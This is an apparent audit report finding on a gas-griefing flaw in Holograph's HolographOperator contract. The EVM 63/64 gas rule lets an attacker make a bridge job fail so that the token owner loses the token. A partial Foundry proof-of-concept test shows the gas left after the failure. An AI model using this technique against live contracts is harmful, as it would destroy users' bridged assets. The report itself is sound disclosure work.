 [HolographOperator.sol#L316](https://github.com/code-423n4/2022-10-holograph/blob/f8c2eae866280a1acfdc8a8352401ed031be1373/src/HolographOperator.sol#L316)<br>

There's a check at line 316 that verifies that there's enough gas left to execute the `HolographBridge.bridgeInRequest()` with the `gasLimit` set by the user, however the actual amount of gas left during the call is less than that (mainly due to the `1/64` rule, see below).<br>
An attacker can use that gap to fail the job while still having the `executeJob()` function complete.

### Impact

The owner of the bridged token would loose access to the token since the job failed.

### Proof of Concept

Besides using a few units of gas between the check and the actual call, there's also a rule that only 63/64 of the remaining gas would be dedicated to an (external) function call. Since there are 2 external function calls done (`nonRevertingBridgeCall()` and the actual call to the bridge) `~2/64` of the gas isn't sent to the bridge call and can be used after the bridge call runs out of gas.

The following PoC shows that if the amount of gas left before the call is at least 1 million then the execution can continue after the bridge call fails:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";

contract ContractTest is Test {
    event FailedOperatorJob(bytes32 jobHash);
    uint256 private _inboundMessageCounter;
    mapping(bytes32 => bool) private _failedJobs;
    constructor(){
        _inboundMessageCounter = 5;
    }
    function testGas64() public {
        this.entryPoint{gas:1000000}();
    }

    Bridge bridge = new Bridge();
    event GasLeftAfterFail(uint left);

    function entryPoint() public {

        console2.log("Gas left before call: ", gasleft());

        bytes32 hash = 0x987744358512a04274ccfb3d9649da3c116cd6b19c535e633ef8529a80cb06a0;

        try this.intermediate(){
        }catch{
            // check out how much gas is left after the call to the bridge failed
            console2.log("Gas left after failure: ", gasleft());
            // simulate operations done after failure
            _failedJobs[hash] = true;
            emit FailedOperatorJob(hash);
        }
        ++_inboundMessageCounter;
        console2.log("Gas left at end: ", gasleft());

    }

    function intermediate() public{
        bridge.bridgeCall();
    }
```